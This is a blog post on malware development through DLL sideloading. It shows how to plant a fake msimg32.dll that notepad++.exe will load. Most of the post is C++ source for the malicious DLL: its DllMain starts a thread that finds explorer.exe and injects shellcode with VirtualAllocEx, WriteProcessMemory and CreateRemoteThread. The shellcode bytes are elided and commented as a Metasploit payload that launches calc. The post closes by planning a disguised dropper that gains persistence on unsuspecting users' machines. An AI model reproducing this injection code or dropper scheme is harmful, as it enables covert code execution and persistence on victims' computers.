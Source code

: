 ```yaml
---
title: "Malware Development - DLL Sideloading"
classes: wide
header:
teaser: /assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/logo.jpg
ribbon: Purple
description: "DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from ..."
categories:

- Malware Analysis
  
---
```



DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from a location other than the application's install directory. This is often done to enable an application to use a specific version of a DLL or to load a DLL that is not in the system's default search path. In some cases, DLL sideloading can be used to introduce malicious code into an application, so it is generally considered a security risk and is often disabled on corporate and enterprise networks.

## Concept

The concept of DLL sideloading is based on the fact that many applications use DLLs to provide additional functionality or to implement certain features. A DLL is a type of file that contains code and data that can be used by multiple applications at the same time. When an application needs to use a particular DLL, it typically loads the DLL from the application's install directory or from a location specified in the system's default search path.

Here in our case, "notepad++.exe" tries to load "MSIMG32.DLL", first it will search the DLL in its folder, then check it if avaliable in "System32" folder. We will hijack this part of process, we will copy and save the DLL from "System32", add dependencies to the original but renamed DLL so that our malicious DLL does not give any errors. When "notepad++.exe" executed, our malicious DLL will be loaded without any error and calc.exe executes.

`this article will not cover obfuscation, use it for educational purposes, source code is at the bottom`

### Finding Vulnerable DLLs

As a mentioned before, this procedure requires a vulnerable DLL with "NAME NOT FOUND" result. I choose "notepad++.exe", looked for a process that resulted "NAME NOT FOUND" and picked "msimg32.dll".

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_134707_image.png)

I used my previous malware development - dropper codes, you can check them [here](https://github.com/vvelitkn/MalwareDev-Dropper).

First we should create the malicious DLL (which spawns calc.exe), so we open a new DLL project on Visual Studio named "msimg32" (you should name it with the target DLL's name). We set DllMain function like below and the rest of the code is very same as my previous code. "Action" is our malicious function.

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#define _CRT_SECURE_NO_DEPRECATE
#pragma warning (disable : 4996)

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  reason_for_call,
    LPVOID lpReserved
)
{
    HANDLE hThread = NULL;
    switch (reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        hThread = CreateThread(NULL, 0, Action, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

When "Action" function called, it makes these happen.

Action -> find and open target process -> inject payload

```cpp
//msfpayload windows/x64/exec CMD="calc" EXITFUNC=thread
unsigned char payload[] = {.......}

HANDLE FindTargetProcess(const LPCSTR processName)
{
    int pid = 0;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnap)
        return 0;

    PROCESSENTRY32 ProcessListEntry;
    ProcessListEntry.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnap, &ProcessListEntry))
    {
        CloseHandle(hSnap);
        return 0;
    }  

    while (Process32Next(hSnap, &ProcessListEntry))
    {
        if (lstrcmpi(processName, ProcessListEntry.szExeFile) == 0)
        {
            pid = ProcessListEntry.th32ProcessID; break; 
        }
    }

    CloseHandle(hSnap);

    if (pid)
        return OpenProcess(PROCESS_CREATE_PROCESS | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD)pid);

    return NULL;
}

int InjectPayload(HANDLE hProcess, unsigned char* payload, unsigned int payloadSize)
{

    LPVOID pRemoteShellcode = NULL;
    pRemoteShellcode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProcess, pRemoteShellcode, (PVOID)payload, (SIZE_T)payloadSize, (SIZE_T*)NULL);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteShellcode, NULL, 0, NULL);
    if (hThread != NULL)
    {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

DWORD WINAPI Action(LPVOID lpParameter)
{
    HANDLE hProcess = NULL;
    unsigned int payloadsize = sizeof(payload);

    char pName[] = "explorer.exe";
    hProcess = FindTargetProcess(pName);

    if (hProcess != NULL)
    {
        InjectPayload(hProcess, payload, payloadsize);
        CloseHandle(hProcess);
    }
    return 0;
}



```

After completing the payload and injection stages, we write the export functions of my original but renamed DLL so that our malicious DLL does not fail while loading.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_162822_image.png)

Let's test it out.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/poc.gif)

So far, so good. Our malicious DLL loading without error. We hijack the loading cycle, but we can do more. Let's create a dropper for "msimg32.dll" and make it look like a legit app which drops our malicious DLL. So we will do this here:

Dropper -> Mal DLL + NonMal DLL -> execute payload

This procedure will give us the advantage: persistence. The careless user will run our dropper and if the user has notepad++ on their computer we will upload our files there.

To be continued.


- [Source Code](https://github.com/vvelitkn/MalwareDev-DLL-Sideloading)
